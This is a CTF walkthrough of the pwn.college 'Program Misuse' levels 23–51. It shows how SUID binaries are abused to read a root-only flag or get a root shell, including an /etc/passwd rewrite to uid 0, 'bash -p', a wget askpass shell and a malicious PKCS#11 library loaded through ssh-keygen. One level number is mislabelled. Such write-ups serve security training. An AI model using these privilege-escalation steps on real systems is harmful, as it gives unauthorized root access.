

pwn.college is an educational platform for students (and others) to learn and practice fundamental cybersecurity concepts.

Today we're tackling the first *dojo* “Fundamentals” with the Program Misuse module. I didn't start writing until level 23, where the solutions require slightly more thought.

---

**Forces you to understand different archive formats!**

**Level 23** : `genisoimage`


GTFOBins reference


```shell
$ genisoimage -sort /flag
genisoimage: Incorrect sort file format
        pwn.college{redacted}
```

---

**Enables you to read flags by making them execute other commands!**

**Level 24** : `env`

```shell
$ env cat /flag
pwn.college{redacted}
```

**Level 25** : `find`

```shell
$ find /flag -exec cat {} \;
pwn.college{redacted}
```

**Level 26** : `make`


GTFOBins reference


```shell
$ make -s --eval=$'x:\n\t-'"cat /flag"
pwn.college{redacted}
```

**Level 27** : `nice`

```shell
$ nice cat /flag
pwn.college{redacted}
```

**Level 28** : `timeout`

```shell
$ timeout 1 cat /flag
pwn.college{redacted}
```

**Level 29** : `stdbuf`


GTFOBins reference


```shell
$ stdbuf -i0 cat /flag
pwn.college{redacted}
```

**Level 30** : `setarch`


GTFOBins reference


```shell
$ setarch $(arch) cat /flag
pwn.college{redacted}
```

**Level 31** : `watch`

```shell
$ watch -x cat /flag
Every 2.0s: cat /flag       program-misuse~level31: Thu Apr  4 21:20:30 2024

pwn.college{redacted}
```

**Level 32** : `socat`


GTFOBins reference


```shell
$ socat stdin exec:"cat /flag"
pwn.college{redacted}
```

---

**Requires some light programming to read the flag !**

**Level 33** : `whiptail`

```shell
$ whiptail --textbox --scrolltext "/flag" 10 50
┌────────────────────────────────────────────────┐
│                                                │
│ pwn.college{redacted}                          │
│                                                │
│                                                ▒
│                                                ↓
│                                                │
│                     <Ok>                       │
│                                                │
└────────────────────────────────────────────────┘
```

**Level 34** : `awk`

```shell
$ awk -F: '{ print $1 }' /flag
pwn.college{redacted}
```

**Level 35** : `sed`

```shell
$ sed '' /flag
pwn.college{redacted}
```

**Level 36** : `ed`

```shell
$ ed /flag
57
1 # displays the first line of the file
pwn.college{redacted}
```

---

**Lets you get the flag by doing tricks with permissions!**

**Level 37** : `chown`

```shell
$ chown $(whoami) /flag
$ cat /flag
pwn.college{redacted}
```

**Level 38** : `chmod`

```shell
$ chmod a+r /flag
$ cat /flag
pwn.college{redacted}
```

**Level 39** : `cp`


GTFOBins reference


```shell
$ cp --attributes-only --preserve=all $(which cp) /flag
$ cat /flag
pwn.college{redacted}
```

**Level 30** : `mv`

```shell
1$ sed "s/1000:1000/0:0/" /etc/passwd > tmp # replaces our uid with root
1$ mv tmp /etc/passwd
# create a new session, through ssh for example
2$ cat /flag
pwn.college{redacted}
```

---

**Lets you read the flag because they let you program anything!**

**Level 41** : `perl`

By default, Perl has one security mode: *taint mode*. This automatically activates a set of special security checks when it detects that its program is running with different *actual and effective* user or group credentials.

For more information, see [perlsec](https://perldoc.perl.org/perlsec).

Here, we override the `PATH` to be able to call `cat`.

```shell
$ perl -e '$ENV{PATH} = "/usr/bin"; exec "cat /flag";'
pwn.college{redacted}
```

**Level 42** : `python`

```shell
$ python -c 'print(open("/flag").read())'
pwn.college{redacted}
```

**Level 43** : `ruby`

You can't launch ruby directly with the `-e` in SUID, but you can always launch the interactive interpreter!

```shell
$ ruby -e 'puts File.read("/flag")'
Traceback (most recent call last):
ruby: no -e allowed while running setuid (SecurityError)
$ irb
irb(main):001:0> puts File.read("/flag")
pwn.college{redacted}
=> nil
```

**Level 44** : `bash`

```shell
$ bash -p
bash-5.0# cat /flag
pwn.college{redacted}
```

---

**Just straight up wasn't designed to let you read files!**

**Level 45** : `date`


GTFOBins reference


```shell
$ date -f /flag
date: invalid date ‘pwn.college{redacted}’
```

**Level 46** : `dmesg`


GTFOBins reference


```shell
$ dmesg -rF /flag
pwn.college{redacted}
```

**Level 47** : `wc`

```shell
$ wc --files0-from /flag
wc: 'pwn.college{redacted}'$'\n': No such file or directory
```

**Level 48** : `gcc`


GTFOBins reference


The file is read and parsed as a list of files (one per line), and the contents are leaked with error messages.

```shell
$ gcc @/flag
gcc: error: pwn.college{redacted}: No such file or directory
gcc: fatal error: no input files
compilation terminated.
```

**Level 49** : `as`

In the same way as with `gcc`, we leak with error messages.

```shell
$ as @/flag
Assembler messages:
Error: can't open pwn.college{redacted} for reading: No such file or directory
```

---

**Just straight up wasn't designed to let you read files! This level has a "decoy" solution that looks like it leaks the flag, but is not correct. If you're submitting what you feel should be a valid flag, and the dojo doesn't accept it, try your solution against a file with uppercase characters to see what's going on.**

**Level 50** : `wget`


GTFOBins reference


The technique here is to use the `--use-askpass` flag (definition in the `wget` manual below). This argument is used to execute a command to retrieve credentials to be used to make a request. It can therefore be used to obtain a root shell.

```
--use-askpass=command
        Prompt for a user and password using the specified command. If no command is specified then the command in the environment variable WGET_ASKPASS is used. If WGET_ASKPASS is not set then the command in the environment variable SSH_ASKPASS is used.

        You can set the default command for use-askpass in the .wgetrc.  That setting may be overridden from the command line.
```

```shell
$ tmp=$(mktemp)
$ chmod +x $tmp
$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' > $tmp
$ wget --use-askpass=$tmp 0
$> cat /flag
pwn.college{redacted}
```

---

**Shows how dangerous it is to allow users to load their own code as plugins into the program (but figuring out how is the hard part)!**

**Level 51** : `ssh-keygen`


GTFOBins reference


The binary can be used to load shared libraries and execute code in context (here in SUID root).

According to the `ssh-keygen` manual:

```
 -D pkcs11 Download the public keys provided by the PKCS#11 shared library pkcs11 . When used in combination with -s , this option indicates that a CA key resides in a PKCS#11 token (see the CERTIFICATES section for details).
```

**Première tentative**

Naively, I'm using a shared object with a main that reads and displays the characters contained in the `/flag` file.

```c
#include <stdio.h>

int main()
{
    FILE *fd;

    char filename[] = "/flag";
    char c = 0;

    fd = fopen(filename, "r");

    while ((c = fgetc(fd)) != EOF)
        printf ("%c", c);

    fclose(fd);
    return 0;
}
```

On my host, I compile the lib and transfer it to the :

```shell
gcc -shared -o lib.so lib.c
scp lib.so pwn.college:/tmp
```

I try to import it with `ssh-keygen` :

```shell
$ ssh-keygen -D /tmp/lib.so
/tmp/lib.so does not contain expected string C_GetFunctionList
provider /tmp/lib.so is not a PKCS11 library
cannot read public key from pkcs11
```

It doesn't work very well, apparently it has to be a “PKCS11” library. According to [microcosm.com](https://fr.microcosm.com/blog/what-is-pkcs11):
> PKCS#11 is a platform-independent API that can be used to manage and use cryptographic security hardware. These hardware devices are often called “cryptographic tokens”, hence the name “Cryptoki” (from Cryptographic Token Interface).

I found the lib [libp11](https://github.com/OpenSC/libp11) which seems to be a perfect example.

A search of the code for the symbol indicated in the error above yields the following results:



A priori, this would be the first function called when importing, so we'll put our code there.

**Second attempt**

```c
#include <stdio.h>

void C_GetFunctionList()
{
    FILE *fd;

    char filename[] = "/flag";
    char c = 0;

    fd = fopen(filename, "r");

    while ((c = fgetc(fd)) != EOF)
        printf ("%c", c);

    fclose(fd);
}
```

Same compilation and transfer steps :

```shell
$ ssh-keygen -D /tmp/lib.so
pwn.college{redacted}
Segmentation fault
```

We finally found it !
